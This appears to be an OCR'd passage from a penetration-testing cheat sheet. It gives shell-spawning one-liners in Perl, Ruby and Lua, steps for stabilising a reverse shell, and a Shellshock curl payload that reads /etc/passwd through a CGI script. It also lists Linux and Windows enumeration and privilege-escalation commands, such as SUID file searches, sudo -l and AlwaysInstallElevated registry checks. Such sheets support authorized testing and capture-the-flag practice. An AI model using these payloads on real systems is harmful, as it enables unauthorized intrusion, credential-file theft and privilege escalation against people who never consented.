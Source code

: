 # Perl
perl -e 'exec "/bin/bash"'

# Ruby
exec "/bin/bash"

# Lua
os.execute('/bin/bash')
Adjust Interactive shell
stty size # Find your terminal size -> 50 235
Ctrl-Z
stty raw -echo  // Disable shell echo
fg
export SHELL=bash
export TERM=xterm OR export TERM=xterm-256color
stty rows 50 columns 235
SHELLSHOCK
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" <URL>/cgi-bin/<SCRIPT>
USEFUL LINUX COMMANDS
Find a file
locate <FILE>
find / -name "<FILE>"
Active connection
netstat -lntp
List all SUID files
find / -perm -4000 2>/dev/null
Determine the current version of Linux
 cat /etc/issue
Determine more information about the environment
uname -a
List processes running
ps -faux
List the allowed (and forbidden) commands for the invoking use
sudo -l
USEFUL WINDOWS COMMANDS
net config Workstation
systeminfo
net users

ipconfig /all
netstat -ano

schtasks /query /fo LIST /v
tasklist /SVC
net start
DRIVERQUERY

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
